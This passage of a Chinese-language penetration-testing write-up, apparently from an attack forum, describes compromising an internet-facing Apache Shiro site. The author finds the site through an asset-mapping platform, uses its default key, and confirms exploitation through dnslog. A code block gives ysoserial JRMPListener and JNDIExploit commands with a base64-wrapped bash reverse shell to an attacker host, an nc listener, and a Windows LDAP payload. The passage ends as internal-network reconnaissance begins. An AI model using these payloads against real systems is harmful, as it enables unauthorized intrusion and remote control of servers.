 ![b8xw2a-s9d_hjEIes_edE.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-aff3dae8f93ce60eda2655a54de1d594de665f5c.png)

### shiro无依赖链利用

通过测绘平台找到一个比较偏的资产，直接访问是一个静态页面，但扫描目录后指纹识别一波发现是shiro

直接使用shiro\_attack\_2.2工具开冲，发现有默认key但是无利用链

![image_ylgMY223mT.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-094195988ad6fcf1cd5f6d55048bbddcc5403899.png)

可能有些人看到这里就放弃了，但这可能会错过一个利用点

shiro可以无依赖链利用，感觉有戏尝试一波，相关知识可拜读师傅的文章<https://www.le1a.com/posts/a5f4a9e3>

这里换用其他工具

![image-20220607115446156_b9JXMk_Qxy.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-7f9c4106c4ecc4a4a48d49cf5523ac31e3c0e96c.png)

通过dnslog测试有回显，这里有个注意点：使用 [http://dnslog.cn/](http://dnslog.cn/ "http://dnslog.cn/") 部分站点会拦截，可以换多个dnslog平台测试

![image_htB_EhwPH9.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-75eb6edf1cdd2a21e44e073343d65e2e2f2876a6.png)

dnslog有回显接下来就是拿shell了，这里由于固定思维，之前遇到的都是linux系统，先入为主觉得是Linux，结果没利用成功，一开始以为是防火墙拦截，后面探测了一下目录结构，发现是windows，所以这里payload要改变一下

这里可以通过网站快速生成payload  
[https://x.hacking8.com/java-runtime.html](https://x.hacking8.com/java-runtime.html "https://x.hacking8.com/java-runtime.html")

```php
Linux：
java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils1 "bash -c {echo,字段}|{base64,-d}|{bash,-i}"  
字段=bash -i >& /dev/tcp/x.x.x.x/8888 0>&1 base64后的值  
nc -lvp 端口

Windows：
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i VPS地址  
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils2 "ldap://VPS地址:1389/Basic/Command/Base64/d2hvYW1p"  
d2hvYW1p为命令的base64，这里是执行命令whoami
```

![image_wvD-c4KvV-.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-c11e3e3bdca9a0eada7c4b31ff76c024b16b0f40.png)

0x02 内网渗透
=========

杀软识别
----

拿到一台机器后，一般先看一下安装了什么安全防护产品

`tasklist /svc`
